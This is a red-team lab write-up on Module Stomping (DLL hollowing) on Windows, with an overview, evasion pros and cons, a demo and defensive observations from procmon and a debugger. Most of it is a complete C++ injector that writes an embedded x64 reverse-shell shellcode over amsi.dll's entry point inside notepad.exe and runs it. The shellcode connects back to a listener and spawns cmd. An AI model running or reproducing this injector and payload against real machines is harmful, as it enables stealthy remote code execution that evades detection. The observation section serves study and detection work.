 ```yaml
---
description: Code Injection
---
```


# Module Stomping for Shellcode Injection

## Overview

Module Stomping \(or Module Overloading or DLL Hollowing\) is a shellcode injection \(although can be used for injecting full DLLs\) technique that at a high level works as follows:

1. Injects some benign Windows DLL into a remote \(target\) process
2. Overwrites DLL's, loaded in step 1, `AddressOfEntryPoint` point with shellcode
3. Starts a new thread in the target process at the benign DLL's entry point, where the shellcode has been written to, during step 2

In this lab, I will inject `amsi.dll` into a `notepad.exe` process, but this of course could be done with any other DLL and process.

## Pros

1. Does not allocate RWX memory pages or change their permissions in the target process at any point
2. Shellcode is injected into a legitimate Windows DLL, so detections looking for DLLs loaded from weird places like c:\temp would not work
3. Remote thread that executes the shellcode is associated with a legitimate Windows module

## Cons

`ReadProcessMemory`/`WriteProcessMemory` API calls are usually used by debuggers rather than "normal" programs.

{% hint style="info" %}
`ReadProcessMemory` is used to read remote process injected module's image headers, meaning we could ditch the `ReadProcessMemory` call and read those headers from the DLL on the disk.

We could also use `NtMapViewOfSection` to inject shellcode into the remote process, reducing the need for `WriteProcessMemory`.
{% endhint %}

## Code

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <psapi.h>

int main(int argc, char *argv[])
{
    HANDLE processHandle;
    PVOID remoteBuffer;
    wchar_t moduleToInject[] = L"C:\\windows\\system32\\amsi.dll";
    HMODULE modules[256] = {};
    SIZE_T modulesSize = sizeof(modules);
    DWORD modulesSizeNeeded = 0;
    DWORD moduleNameSize = 0;
    SIZE_T modulesCount = 0;
    CHAR remoteModuleName[128] = {};
    HMODULE remoteModule = NULL;

    // simple reverse shell x64
    unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

    // inject a benign DLL into remote process
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    //processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 8444);

    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof moduleToInject, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)moduleToInject, sizeof moduleToInject, NULL);
    PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    HANDLE dllThread = CreateRemoteThread(processHandle, NULL, 0, threadRoutine, remoteBuffer, 0, NULL);
    WaitForSingleObject(dllThread, 1000);

    // find base address of the injected benign DLL in remote process
    EnumProcessModules(processHandle, modules, modulesSize, &modulesSizeNeeded);
    modulesCount = modulesSizeNeeded / sizeof(HMODULE);
    for (size_t i = 0; i < modulesCount; i++)
    {
        remoteModule = modules[i];
        GetModuleBaseNameA(processHandle, remoteModule, remoteModuleName, sizeof(remoteModuleName));
        if (std::string(remoteModuleName).compare("amsi.dll") == 0) 
        {
            std::cout << remoteModuleName << " at " << modules[i];
            break;
        }
    }

    // get DLL's AddressOfEntryPoint
    DWORD headerBufferSize = 0x1000;
    LPVOID targetProcessHeaderBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
    ReadProcessMemory(processHandle, remoteModule, targetProcessHeaderBuffer, headerBufferSize, NULL);

    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetProcessHeaderBuffer;
    PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetProcessHeaderBuffer + dosHeader->e_lfanew);
    LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)remoteModule);
    std::cout << ", entryPoint at " << dllEntryPoint;

    // write shellcode to DLL's AddressofEntryPoint
    WriteProcessMemory(processHandle, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

    // execute shellcode from inside the benign DLL
    CreateRemoteThread(processHandle, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

    return 0;
}
```

## Demo

Below shows the technique in action - amsi.dll gets loaded into notepad and a reverse shell is spawned by the shellcode injected into amsi.dll `AddressOfEntryPoint`:

![](../../.gitbook/assets/adressofentrypointdllinjection%20%281%29.gif)

## Observation

Note how powershell window shows that `amsi.dll` is loaded at 00007FFF20E60000 and it's DLL `AddressOfEntryPoint` point is at **00007FFF20E67**E00.

If we look at the stack trace of the cmd.exe process creation event in procmon, we see that frame 9 originates from inside `amsi!AmsiUacScan+0x5675` \(**00007fff20e67**f95\) before the code transitions to kernelbase.dll where `CreateProcessA` is called:

![](../../.gitbook/assets/image%20%2819%29.png)

{% file src="../../.gitbook/assets/addressofentrypoint-injection-procmon.PML" caption="Procmon logs" %}

If we inspect notepad.exe threads, we can see thread 7372 with a start address of `Amsi!AmsiUacScan+0x54e0`.

If we inspect that memory location with a debugger, we see it resolves to `Amsi!DLLMainCRTStartup` and it contains our shellcode as expected:

![](../../.gitbook/assets/image%20%28134%29.png)

## References

{% embed url="https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing" caption="" %}

{% embed url="http://williamknowles.io/living-dangerously-with-module-stomping-leveraging-code-coverage-analysis-for-injecting-into-legitimately-loaded-dlls/" caption="" %}

